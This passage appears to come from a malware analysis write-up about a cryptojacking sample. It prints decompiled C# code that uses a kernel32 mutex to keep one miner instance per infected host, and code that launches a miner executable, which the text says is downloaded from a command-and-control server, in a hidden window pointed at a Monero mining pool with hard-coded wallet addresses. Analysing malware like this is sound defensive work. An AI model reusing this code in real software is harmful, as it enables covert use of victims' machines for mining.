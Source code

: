 It also ensures by leveraging mutexes, that one, and only instance of the miner runs on the infected host.

```C#
internal class Class6
{
	// Token: 0x0600001C RID: 28
	[ReliabilityContract(Consistency.WillNotCorruptState, Cer.Success), SuppressUnmanagedCodeSecurity]
	[DllImport("kernel32.dll", SetLastError = true)]
	[return: MarshalAs(UnmanagedType.Bool)]
	private static extern bool CloseHandle(int int_0);

	// Token: 0x0600001E RID: 30 RVA: 0x000026A8 File Offset: 0x000008A8
	public static bool createMutex()
	{
		int int_ = Class6.CreateMutex(0, true, "1");
		if (Class6.GetLastError() == 183)
		{
			Class6.CloseHandle(int_);
			return false;
		}
		return true;
	}

	// Token: 0x0600001B RID: 27
	[DllImport("kernel32.dll")]
	private static extern int CreateMutex(int int_0, bool bool_0, string string_0);

	// Token: 0x0600001D RID: 29
	[DllImport("kernel32.dll")]
	private static extern int GetLastError();
}

```

#### Prepare environment and download .exe

At this stage the malware will download from the command and control server the corresponding monero miner. This .exe will be ran with the predefined flags.

```C#
public static void startMining_minexmr()
{
	Class5.prepareEnvironment();
	string str = "." + GetInfoSystem.String_0;
	if (!Class1.bool_1)
	{
		Process.Start(new ProcessStartInfo
		{
			FileName = Class5.pathDirWork + Class5.fileExe_,
			WindowStyle = ProcessWindowStyle.Hidden,
			Arguments = "-o pool.minexmr.com:4444 -u 4EYCaxkPs9Y9baUNmcNSaS5aDBeCtVZ2DhPCGfhAjNsh2MjcLZKUGmsYwn2AvE98XqHBBDCAYFMvy9eAkLadvkqHhnYcjrQRKegVAFwEyN -p x"
		});
	}
	else
	{
		Process.Start(new ProcessStartInfo
		{
			FileName = Class5.pathDirWork + Class5.fileExe_,
			WindowStyle = ProcessWindowStyle.Hidden,
			Arguments = "-o pool.minexmr.com:4444 -u 43GmE9A1TQo7sNS7CHUvvbgK1eDTYd1FtQKnP27URLkngsaxkfHKBogJaHEf1CmnbeLaNAUdmCqRoX6iBNLDy4RyKDHXy4o" + str + " -p x"
		});
	}
```